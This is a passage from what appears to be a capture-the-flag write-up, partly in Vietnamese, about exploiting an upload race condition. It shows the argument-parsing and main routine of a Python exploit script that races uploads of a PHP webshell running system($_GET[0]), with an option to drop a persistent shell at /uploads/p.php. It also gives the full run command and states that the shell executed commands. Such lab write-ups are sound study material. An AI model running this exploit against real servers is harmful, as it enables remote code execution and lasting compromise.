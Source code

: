 ```python
def parse_args() -> Config:
    ap = argparse.ArgumentParser(description="Exploit Race Condition In Upload WebShell (OOP refactor).")
    ap.add_argument("--base", required=True, help="Base URL, http://TARGET")
    ap.add_argument("--upload", default="/upload.php", help="Upload path")
    ap.add_argument("--tmp", default="/tmp", help="Temp web path where files appear ")
    ap.add_argument("--cmd", default="id", help="Command to execute via ?0=")
    ap.add_argument("--threads", type=int, default=300, help="Concurrent GET workers over /tmp/0000..9999")
    ap.add_argument("--upload-interval", type=float, default=0.0, help="Sleep seconds between uploads (default: 0)")
    ap.add_argument("--field-name", default="file", help="Form field name for upload (default: file)")
    ap.add_argument("--persist", action="store_true", help="After first HIT, drop persistent /uploads/p.php")
    ap.add_argument("--timeout", type=float, default=0.8, help="HTTP timeout seconds")
    ap.add_argument("--php", default=WEB_SHELL, help="PHP webshell content (default: system($_GET[0]))")
    ap.add_argument("--no-show-response", dest="show_response", action="store_false", help="Do not print full response body on success")
    args = ap.parse_args()
    config = Config(
        base=args.base,
        upload=args.upload,
        tmp=args.tmp,
        cmd=args.cmd,
        threads=args.threads,
        upload_interval=args.upload_interval,
        field_name=args.field_name,
        persist=args.persist,
        timeout=args.timeout,
        php=args.php,
        pool_size=max(64, args.threads * 2),
        show_response=args.show_response,
    )
    return config
def main():
    config = parse_args()
    runner = Exploit(config)
    runner.run()
if __name__ == "__main__":
    main()
```
Run Python Với Lệnh Sau: <br>
```note
python3 <filename>.py --base http://<HOST>:<PORT> --upload /upload.php --tmp /tmp --cmd "<command-your>" --threads 300 --upload-interval 0.0 --persist
```
Và đã thành công ghi webshell và thực thi lệnh: <br>
![alt text](image-7.png) <br>
Tiếp theo cùng sử dụng lệnh ls / để kiểm tra flag có file ngẫu nhiên: <br>